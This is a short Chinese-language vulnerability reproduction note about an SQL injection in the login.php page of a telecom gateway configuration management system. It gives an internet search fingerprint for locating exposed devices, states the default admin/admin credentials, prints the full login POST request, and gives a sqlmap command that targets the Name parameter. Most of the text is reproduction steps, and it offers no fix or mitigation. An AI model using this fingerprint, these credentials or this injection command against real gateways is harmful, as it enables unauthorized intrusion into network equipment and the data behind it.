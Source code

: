 # 电信 网关配置管理系统 login.php SQL注入漏洞

## 漏洞描述

电信网关配置管理系统 前台登陆页面用户名参数存在SQL注入漏洞

## 漏洞影响

```
电信网关配置管理系统
```

## 网络测绘

```
body="src="img/dl.gif"" && title="系统登录"
```

## 漏洞复现

登录页面如下



![](./images/202202140923586.png)

设备存在默认弱口令 **admin/admin**

![](./images/202202140924953.png)

登录的请求包为

```plain
POST /manager/login.php HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Length: 53
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.128 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: PHPSESSID=2lfi6enp5gehalrb92594c80i6
Connection: close

Name=admin&Pass=admin
```

保存为文件使用 Sqlmap工具，注入点为 **Name参数**

```plain
sqlmap -r sql-1.txt -p Name --risk 3
```

![](./images/202202140924004.png)

#